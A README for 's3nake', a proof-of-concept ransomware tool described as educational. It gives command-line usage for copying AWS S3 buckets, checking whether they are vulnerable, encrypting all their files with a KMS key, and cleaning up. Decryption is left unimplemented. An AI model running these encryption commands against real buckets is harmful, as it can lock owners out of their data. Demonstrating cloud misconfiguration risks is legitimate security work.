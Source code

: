# 🐍 s3nake ransssomware PoC

<div align=center>
  <h3>~</h3>
  <strong>For educational purposes ONLY, not built for performance, some arrangements need to be done</strong>
  <br>It should mainly used to illustrate how a misconfigured s3 bucket could be abused. Proof-of-Concept built with the will to be harmless
  <h3>~</h3>
</div>

## Show 'em 🪄🎩🐇

*For all the command the flags -p/--profile, -r/--region, -b/buckets are not mandatory. Input will be requested if necessary.*

### 1. Set up - Copy the s3 buckets targeted
```shell
python s3nake.py setup -b [comma_separated_bucket_list] --check
```

* We perform a copy of the bucket to not alter the original one with the PoC
* `--check` flag performs s3 configuration checks to estimate wether or not the bucket is vulnerable to s3 ransomware attack

### 2. Perform the "ransomware" attack - Encrypt all the files

```shell
# to see the magic happen in real time
./watch_ransomware.sh [bucket_name]
# in another shell
python s3nake.py encrypt -b [comma_separated_bucket_list] -k [key_id]
```

* `-k`/`--key-id` flag is not mandatory, if not provided a KMS key will be automatically generated with the appropriate policy

### 3. Decrypt the ransomware - 
*TODO*
In fact, not really needed, as it is a PoC and should not be used as a real ransomware

### 4. Clean the PoC - delete s3 bucket copy
```shell
python s3nake.py clean -b [comma_separated_bucket_list]
```
